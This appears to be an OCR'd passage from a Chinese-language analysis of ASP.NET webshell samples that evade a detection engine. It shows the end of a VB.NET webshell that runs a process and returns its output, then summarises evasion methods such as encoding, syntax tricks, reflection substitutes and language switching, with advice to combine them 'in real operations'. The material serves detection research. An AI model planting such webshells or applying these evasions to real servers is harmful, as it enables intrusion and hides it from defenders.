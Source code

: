 ```
        Dim output As String = process.StandardOutput.ReadToEnd()
        process.WaitForExit()
        Response.Write(Server.HtmlEncode(output))
    Catch ex As Exception
        Response.Write("Error: " & Server.HtmlEncode(ex.Message))
    End Try
Else
    Response.Write("No command")
End If
%>
```
## 总结
相对于`jsp/php`样本而言`asp/asp.net`样本的绕过还是相对比较简单，本文仅对提交的部分样本进行分析，主要绕过技术总结如下。

1. **编码混淆**：多层编码增加检测复杂度
2. **语法变形**：利用语言特性实现功能等价替换
3. **反射替代**：通过委托、动态调用等方式避开反射检测
4. **跨语言技巧**：在 C#、VB、JScript 间灵活运用不同特性

`asp.net`支持多种语言如`VB/C#/JScript`这也变相增加了webshell的查杀难度。因为仅仅是测试引擎的绕过，实战中还需使用上述手法结合`Unicode`编码、特殊`Unicode`字符、命名空间别名、反射、注释等手段进行webshell混淆以达到最佳效果。